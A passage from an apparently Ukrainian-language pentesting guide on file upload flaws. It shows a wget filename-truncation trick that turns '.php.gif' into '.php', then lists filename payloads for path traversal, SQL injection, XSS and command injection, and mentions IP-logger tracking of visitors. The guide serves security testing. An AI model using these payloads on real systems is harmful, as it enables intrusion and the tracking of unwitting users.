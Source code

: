 ```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
Зверніть увагу, що **інший варіант**, про який ви можете думати, щоб обійти цю перевірку, - це зробити так, щоб **HTTP сервер перенаправляв на інший файл**, тому початкова URL-адреса обійде перевірку, а потім wget завантажить перенаправлений файл з новою назвою. Це **не спрацює**, **якщо** wget не використовується з **параметром** `--trust-server-names`, оскільки **wget завантажить перенаправлену сторінку з назвою файлу, вказаною в оригінальній URL-адресі**.

## Інструменти

* [Upload Bypass](https://github.com/sAjibuu/Upload\_Bypass) - це потужний інструмент, розроблений для допомоги пентестерам та шукачам вразливостей у тестуванні механізмів завантаження файлів. Він використовує різні техніки баг-баунті, щоб спростити процес виявлення та експлуатації вразливостей, забезпечуючи всебічну оцінку веб-додатків.

## Від завантаження файлів до інших вразливостей

* Встановіть **filename** на `../../../tmp/lol.png` і спробуйте досягти **перетворення шляху**
* Встановіть **filename** на `sleep(10)-- -.jpg` і ви можете досягти **SQL-ін'єкції**
* Встановіть **filename** на `<svg onload=alert(document.domain)>`, щоб досягти XSS
* Встановіть **filename** на `; sleep 10;`, щоб протестувати деякі ін'єкції команд (більше [триків ін'єкцій команд тут](../command-injection.md))
* [**XSS** в завантаженні файлів зображень (svg)](../xss-cross-site-scripting/#xss-uploading-files-svg)
* **JS** файл **завантаження** + **XSS** = [**експлуатація сервісних працівників**](../xss-cross-site-scripting/#xss-abusing-service-workers)
* [**XXE в завантаженні svg**](../xxe-xee-xml-external-entity.md#svg-file-upload)
* [**Відкрите перенаправлення** через завантаження svg файлу](../open-redirect.md#open-redirect-uploading-svg-files)
* Спробуйте **різні svg payloads** з [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)\*\*\*\*
* [Відома вразливість **ImageTrick**](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/)
* Якщо ви можете **вказати веб-серверу, щоб отримати зображення з URL**, ви можете спробувати зловживати [SSRF](../ssrf-server-side-request-forgery/). Якщо це **зображення** буде **збережено** на якомусь **публічному** сайті, ви також можете вказати URL з [https://iplogger.org/invisible/](https://iplogger.org/invisible/) і **вкрасти інформацію про кожного відвідувача**.
* [**XXE та CORS** обхід з завантаженням PDF-Adobe](pdf-upload-xxe-and-cors-bypass.md)
* Спеціально підготовлені PDF для XSS: [наступна сторінка показує, як **впровадити PDF-дані для отримання виконання JS**](../xss-cross-site-scripting/pdf-injection.md). Якщо ви можете завантажувати PDF, ви можете підготувати деякі PDF, які виконуватимуть довільний JS відповідно до вказаних вказівок.